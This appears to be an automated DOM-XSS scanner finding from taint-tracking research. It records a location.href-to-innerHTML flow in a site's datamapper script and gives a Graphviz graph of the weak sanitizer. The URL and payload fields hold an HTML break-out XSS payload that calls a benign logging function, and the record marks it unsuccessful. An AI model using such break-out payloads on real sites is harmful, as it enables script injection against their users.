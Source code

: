 // Finding: 29589c4d-e10a-40b5-8dae-446653d9380c
// Finding.url: https://www.example318.com/external/datamapper/NGDP_RPCH@WEO/OEMDC/ADVEC/WEOWORLD##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('74e922407a0d4a9cbcf2f08c0fe9c6fc')><!--/*
// Finding.parentloc: https://www.example318.com/external/datamapper/NGDP_RPCH@WEO/OEMDC/ADVEC/WEOWORLD##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('74e922407a0d4a9cbcf2f08c0fe9c6fc')><!--/*
// Finding.domain: www.example318.com
// Finding.base_domain: example318.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: o
// Sanitizer.location: https://www.example318.com/external/datamapper/deploy/datamapper.js - O.e/<:1:12768
// Finding.begin: 1059
// Finding.end: 1067
// Finding.original_uuid: a88a2274-f3ae-4a6f-81e6-53bdd7e8b6c6
// Finding.TwentyFiveMillionFlowsId: -306954797
// Finding.script: https://www.example318.com/external/datamapper/deploy/datamapper.js
// Finding.line: 1
// Exploit.uuid: 74e92240-7a0d-4a9c-bcf2-f08c0fe9c6fc
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: data-gid
// Exploit.quote_type: "
// Exploit.tag: div
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 54
// Exploit.end_taint_url: 59
// Exploit.replace_begin_url: 74
// Exploit.replace_end_url: 74
// Exploit.replace_begin_param: 35
// Exploit.replace_end_param: 35
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1172081151
// DepGraph.sanitizer_hash: -1172081151

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /^\/|\/$/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=box, label="Var: x"];
n6 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n5 -> n1;
n6 -> n5;
}